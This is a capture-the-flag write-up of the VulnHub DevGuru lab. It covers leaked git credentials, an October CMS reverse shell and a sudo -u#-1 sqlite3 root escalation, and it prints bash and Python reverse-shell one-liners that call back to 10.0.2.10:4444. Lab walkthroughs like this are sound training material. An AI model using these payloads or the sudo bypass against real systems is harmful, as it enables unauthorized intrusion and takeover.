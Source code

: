 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Devguru



## **Description ⤵️**


💡 [DevGuru](https://vulnhub.com/entry/devguru-1,620/) is a fictional web development company hiring you for a pentest assessment. You have been tasked with finding vulnerabilities on their corporate website and obtaining root.

OSCP like ~ Real life based

Difficulty: Intermediate (Depends on experience)



Let’s find the IP Address first >>

![130-1.png](/Vulnhub-Files/img/Devguru/130-1.png)

```bash
IP : 10.0.2.26
```

## Port Scan Results ➡️

![131-1.png](/Vulnhub-Files/img/Devguru/131-1.png)

![131-2.png](/Vulnhub-Files/img/Devguru/131-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
8585 unknown
```

---

## Web Enumeration ⤵️

![132-1.png](/Vulnhub-Files/img/Devguru/132-1.png)

![132-2.png](/Vulnhub-Files/img/Devguru/132-2.png)

Now lets look into the directory traversal files / directories →

![134-1.png](/Vulnhub-Files/img/Devguru/134-1.png)

![134-2.png](/Vulnhub-Files/img/Devguru/134-2.png)

![132-3.png](/Vulnhub-Files/img/Devguru/132-3.png)

Since it needs Authentication So I Have to find the username and the password to get the access →

![132-4.png](/Vulnhub-Files/img/Devguru/132-4.png)

Lets use nikto also →

![132-5.png](/Vulnhub-Files/img/Devguru/132-5.png)

![132-6.png](/Vulnhub-Files/img/Devguru/132-6.png)

Now we have .git as a directory so its time to extract some git directories with the help of `git-dumper` →

![132-7.png](/Vulnhub-Files/img/Devguru/132-7.png)

Now lets recon further →

Data → `/git-dump/config/databases.php` →

![132-8.png](/Vulnhub-Files/img/Devguru/132-8.png)

```bash
'database'   => 'octoberdb',
'username'   => 'october',
'password'   => 'SQ66EBYx4GT3byXH'
While opening the git-dump directory I found → adminer.php →
```

![132-9.png](/Vulnhub-Files/img/Devguru/132-9.png)

After using that credentials I got this →

![132-10.png](/Vulnhub-Files/img/Devguru/132-10.png)

![132-11.png](/Vulnhub-Files/img/Devguru/132-11.png)

Now I knew that the password can be changed and what its type so lets insert password as `password` →

![132-12.png](/Vulnhub-Files/img/Devguru/132-12.png)

after replacing the password and saving It Loged in with `frank → password` →

![132-13.png](/Vulnhub-Files/img/Devguru/132-13.png)

I got a reverse shell for october cms →

![132-14.png](/Vulnhub-Files/img/Devguru/132-14.png)

![132-15.png](/Vulnhub-Files/img/Devguru/132-15.png)

When I saved the code I loaded the site and I got this →

![132-16.png](/Vulnhub-Files/img/Devguru/132-16.png)

After some enumeration I found this → on `/var/backups/app.ini.bak` →

![132-17.png](/Vulnhub-Files/img/Devguru/132-17.png)

Now I have the credentials of gitea for mysql services lets use it similar as we did before →

```bash
username → gitea
password → UfFPTF8C8jjxVF2m
```

![132-18.png](/Vulnhub-Files/img/Devguru/132-18.png)

![132-19.png](/Vulnhub-Files/img/Devguru/132-19.png)

with this I got in →

![132-20.png](/Vulnhub-Files/img/Devguru/132-20.png)

Now lets use that exploit →

![132-21.png](/Vulnhub-Files/img/Devguru/132-21.png)

The Exploit was not working so lets use the mannual code execution →

![132-22.png](/Vulnhub-Files/img/Devguru/132-22.png)

![132-23.png](/Vulnhub-Files/img/Devguru/132-23.png)

![132-24.png](/Vulnhub-Files/img/Devguru/132-24.png)

Now lets edit and commit any file so I choose [README.md](http://readme.md/) file →

![132-25.png](/Vulnhub-Files/img/Devguru/132-25.png)

![132-26.png](/Vulnhub-Files/img/Devguru/132-26.png)

![132-27.png](/Vulnhub-Files/img/Devguru/132-27.png)

Now I got it →

![133-1.png](/Vulnhub-Files/img/Devguru/133-1.png)

![133-2.png](/Vulnhub-Files/img/Devguru/133-2.png)

```bash
user.txt → 22854d0aec6ba776f9d35bf7b0e00217
```

Now lets check the `*sudo -l*` further and I got this →

![133-3.png](/Vulnhub-Files/img/Devguru/133-3.png)

lets use it →

```bash
command →
**`sudo** -u#-1 **/**usr**/**bin**/**sqlite3 **/**dev**/**null '.shell /bin/bash`
```

![133-4.png](/Vulnhub-Files/img/Devguru/133-4.png)

![133-5.png](/Vulnhub-Files/img/Devguru/133-5.png)

```bash
root.txt → 96440606fb88aa7497cde5a8e68daf8f
```

![133-6.png](/Vulnhub-Files/img/Devguru/133-6.png)

---

# **Summery Notes →**

1. → Git enumeration with git-dumper and executing the reverse shell was on good path.
2. → I enjoyed the swaping of the password method from mysql .
3. → I got to know about october CMS and its reverse shell code .
4. → Also about the sudo vulnerability part ←

october CMS reverse shell code -->

**`function** onstart()**{**    **exec(**"/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.10/4444 0>&1'"**);}**`

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

root →

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash -i'
```